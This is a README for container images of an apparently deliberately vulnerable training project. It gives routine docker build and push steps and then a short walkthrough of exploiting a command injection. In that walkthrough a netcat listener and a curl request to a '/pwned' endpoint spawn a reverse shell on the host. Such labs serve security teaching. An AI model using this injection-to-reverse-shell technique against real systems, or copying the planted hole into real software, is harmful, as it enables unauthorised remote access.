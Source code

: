 # mad-goat-images

Custom Container images for MAD Goat Nginix and Python projects

## Docker login to private registry

```bash
docker login -u <username> -p <password> <registry>
```

## Build and push

```bash
docker build -t <registry>/<image>:<tag> .
docker push <registry>/<image>:<tag>
```

### Example with MAD Goat registry

```bash
docker build -t nginix:1.25.3 -f nginix.manual.Dockerfile .
docker tag nginix:1.25.3 ghcr.io/mad-goat-project/nginix:1.25.3
docker push ghcr.io/mad-goat-project/nginix:1.25.3
```

### Install Python project dependencies

```bash
pip install -r requirements.txt
python app.py
```

### To explore the command injection

- Run the container
- On your host machine, run netcat on 8076

```bash
    nc -lvp 8076
```

- Once you have netcat listening, make the follwoing HTTP Get request

```bash
        curl -X GET http://localhost:PORT/pwned?ip=host.docker.internal&port=8076
```

- A reverse shell should be spawned on your host machine
